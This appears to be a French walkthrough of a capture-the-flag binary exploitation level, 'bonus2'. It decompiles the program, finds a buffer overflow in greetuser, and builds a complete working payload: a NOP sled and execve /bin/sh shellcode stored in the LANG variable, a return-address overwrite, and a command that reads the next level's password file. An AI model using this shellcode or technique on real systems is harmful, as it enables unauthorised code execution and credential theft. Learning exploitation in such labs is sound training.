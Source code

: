 # Bonus 2
---
  
En décompilant le programme avec Dogbolt ou Ghidra, on voit dans le programme deux fonctions greetuser et Main ainsi qu'une variable globale language.

La variable language et cette dans le main en fonction de la valeur de la variable d'env LANG
```c
v6 = getenv("LANG");
if (v6) {
	if (memcmp(v6, "fi", 2) == 0) {
		language = 1;
	} else if (memcmp(v6, "nl", 2) == 0) {
		language = 2;
	} else {
		language = 0;
	}
}
```

On voit par la suite que dans la fonction greetuser il y a un switch case baser sur la variable language.

```c 
int greetuser(char src) {
	char dest[40];
	memset(dest, 0, sizeof(dest));
	switch (language) {
		case 1:
			strcpy(dest, "Hyvää päivää! ");
			break;
		case 2:
			strcpy(dest, "Goedemiddag! ");
			break;
		case 0:
		default:
			strcpy(dest, "Hello ");
			break;
	}
	strncat(dest, &src, 1);
	return puts(dest);
}
```

avec gdb on peux trouver deux offset qui nous permetrons d'executer un shell code __sh__
Les deux offset son:
	avec case1 -> offset 18
	avec case2 -> offset 23

On vois aussi que dans le main les 40 premier char de __argv[1]__ son copier dans un var __dest__

```c
	memset(dest, 0, sizeof(dest));
	strncpy(dest, argv[1], 40);
	strncpy(&dest[40], argv[2], 32);
```

apres ceci on vas cette notre shell code dans la variable d'env LANG avec des NOP devant pour pouvoir executer

apres ceci on viens chercher dans gdb une des adresse des NOP. 
  
  avec ceci on vas pouvoir exec notre shell code 

Contruction du payload:
	set var env:
		> export LANG=$(python -c 'print "nl" + "\x90" * 100 + [shellCode]')

> ./bonus2 $(python - c 'print "A" * 40') $(python -c 'print "B" * 23 + [midLANGAddress])

  

Payload final :

  

```bash

export LANG=$(python -c 'print("nl" + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')

./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 23 + "\xe6\xfe\xff\xbf" ')

```


Dans le terminal on execute la commande suivante pour récupérer le password du bonus3:


```bash

cat /home/user/bonus3/.pass

```



